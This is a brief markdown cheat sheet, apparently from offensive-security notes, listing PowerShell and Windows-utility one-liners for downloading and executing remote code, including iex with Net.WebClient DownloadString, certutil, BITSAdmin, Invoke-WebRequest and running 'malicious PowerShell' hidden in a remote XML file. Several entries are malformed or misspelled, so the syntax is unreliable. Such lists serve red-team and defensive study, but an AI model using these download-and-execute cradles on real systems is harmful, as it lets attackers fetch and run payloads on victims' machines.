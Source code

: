 ## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
#### On-Disk
* `iex (New-Object Net.WebClient).DownloadFile()`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target
* `var = New-Object System.Xml.XmlDocument;var.Load("<remote_xml_file>");iex var.command.a.execute` - download and executes malicious PowerShell located inside XML document
